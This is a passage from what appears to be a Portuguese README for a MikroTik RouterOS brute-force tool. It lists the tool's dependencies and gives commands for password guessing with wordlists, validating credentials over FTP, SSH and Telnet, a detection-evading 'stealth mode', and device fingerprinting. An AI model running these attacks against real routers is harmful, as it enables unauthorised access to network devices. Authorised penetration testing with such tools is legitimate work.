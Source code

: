 ### Dependências

```
requests>=2.25.0
colorama>=0.4.6
paramiko>=2.7.0
beautifulsoup4>=4.9.0
PySocks>=1.7.1
PyYAML>=6.0
pytest>=7.0.0
```

## 🎮 Uso Básico

### Comando Simples

```bash
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -U admin -P 123456
```

### Com Wordlists

```bash
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u wordlists/users.lst -p wordlists/passwords.lst
```

### Com Validação de Serviços

```bash
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --validate ftp,ssh,telnet
```

## 🔧 Recursos Avançados

### Stealth Mode

```bash
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --stealth
```

**Características:**
- Delays Fibonacci (1, 2, 3, 5, 8, 13, 21, 34, 55 segundos)
- Rotação de User-Agent
- Headers aleatórios
- Jitter aplicado

### Fingerprinting

```bash
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 --fingerprint
```

**Informações coletadas:**
- Versão do RouterOS
- Modelo do dispositivo
- Portas abertas
- Serviços detectados
- Vulnerabilidades conhecidas
- Score de risco (0-10)

